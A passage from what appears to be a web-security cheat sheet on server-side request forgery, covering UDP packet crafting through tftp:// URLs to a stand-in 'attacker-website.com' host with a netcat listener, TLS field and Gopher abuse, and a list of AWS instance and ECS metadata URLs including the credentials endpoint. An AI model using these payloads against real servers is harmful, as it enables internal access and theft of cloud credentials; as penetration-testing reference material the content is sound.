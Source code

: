 ## Crafting UDP packets

You can send almost arbitrary UDP packets by using TFTP protocol.

```http
tftp://attacker-website.com:1337/TESTUDPPACKET
```

```bash
$ nc -l -v -u 1337
Listening on [0.0.0.0] (family 0, port 1337)
TESTUDPPACKEToctettsize0blksize512timeout6
```

This can be used to craft request to various UDP-services, like Memcached.

## TLS fields injection

TLS allows you to smuggle arbitrary data inside fields such as Server Name Indication or Session ID. You can use this to deliver payload to http/text-based services.

References:
- [SNI injection: A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages!](https://github.com/0xn3va/cheat-sheets/blob/master/Web%20Application/Server%20Side%20Request%20Forgery/materials/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)
- [DEF CON Safe Mode - Joshua Maddux - When TLS Hacks You](https://www.youtube.com/watch?v=qGpAJxfADjo) + [TLS Poison](https://github.com/jmdx/TLS-poison)

## Abusing Gopher

Gopher is a communications protocol designed for distributing, searching, and retrieving documents. Gopher provides a wide range of abuse options, see [more](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#gopher).

# Abuse of cloud metadata

## Amazon Web Services

{% raw %} {% embed url="https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html" %} {% endraw %}

{% raw %} {% embed url="https://docs.aws.amazon.com/AmazonECS/latest/developerguide/task-metadata-endpoint-v2.html" %} {% endraw %}

{% raw %} {% hint style="info" %} {% endraw %}
No header required
{% raw %} {% endhint %} {% endraw %}

```http
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.170.2/v2/metadata
http://169.254.170.2/v2/stats
http://169.254.170.2/v2/credentials/
```
